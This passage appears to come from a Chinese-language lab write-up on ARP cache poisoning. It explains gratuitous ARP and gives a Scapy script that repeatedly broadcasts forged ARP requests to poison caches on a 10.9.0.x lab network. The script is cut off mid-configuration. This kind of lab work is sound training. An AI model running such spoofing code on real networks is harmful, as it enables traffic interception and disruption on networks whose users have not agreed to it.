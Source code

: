 在 $hostA$ 上查看 ARP 缓存：

![1-B-7](../image/1-B-7.png)

可以看见并没有添加 $hostB$ 的条目，可见在 linux 默认情况下， reply 消息只能更新内容，却不能新建。

---



### Task 1.C: using ARP gratuitous message

ARP 免费数据包是一种特殊的 ARP 请求数据包。当主机需要更新所有其他机器的 ARP 缓存中的过时信息时，就会使用它。免费 ARP 数据包具有以下特点：

- 源和目标 IP 地址相同，它们是发出免费 ARP 的主机的 IP 地址。
- ARP 报头和以太网报头中的目标 MAC 地址都是广播 MAC 地址（ff:ff:ff:ff:ff:ff）。
- 不期望回复。

我们编写 `arp-free.py`，只需对上面的代码稍加修改。

将源 IP 和目标 IP 改为 $hostB$ 的 IP，目标MAC 地址改为广播地址。

```python
#!/usr/bin/python3 
from scapy.all import ARP, send
import time

def arp_spoof_with_free(target_ip, target_mac, spoof_ip, spoof_mac, interval=2):
    """
    使用ARP免费数据包实现ARP欺骗。
    
    参数：
    - target_ip: 欺骗目标的IP地址（发送ARP请求给该IP）
    - target_mac: 欺骗目标的MAC地址
    - spoof_ip: 欺骗的IP地址，即伪装成的IP
    - spoof_mac: 欺骗的MAC地址，即伪装成的MAC地址
    - interval: 发送ARP包的时间间隔（秒），默认每2秒发送一次
    """
    # 构建ARP请求包
    arp_request = ARP(op=1,             # op=1 表示ARP请求
                      pdst=target_ip,    # 目标IP地址
                      hwdst=target_mac,  # 目标MAC地址
                      psrc=spoof_ip,     # 欺骗的源IP地址（伪装成此IP）
                      hwsrc=spoof_mac)   # 欺骗的源MAC地址（伪装成此MAC）
    
    print(f"开始ARP欺骗（免费数据包方式）：将 {spoof_ip} 伪装成 {spoof_mac} 发向 {target_mac}")
    
 
    try:
        # 持续发送ARP请求包，以保持欺骗效果
        while True:
            send(arp_request, verbose=False)
            print(f"已发送ARP免费数据包：{spoof_ip} -> {spoof_mac} to {target_mac}")
            time.sleep(interval)
    except KeyboardInterrupt:
        print("ARP欺骗已停止")

# 示例参数配置
target_ip = "10.9.0.6"        # 目标主机的IP地址
target_mac = "ff:ff:ff:ff:ff:ff"  # 目标主机的MAC地址
spoof_ip = "10.9.0.6"         # 欺骗的IP地址，即伪装成此IP
```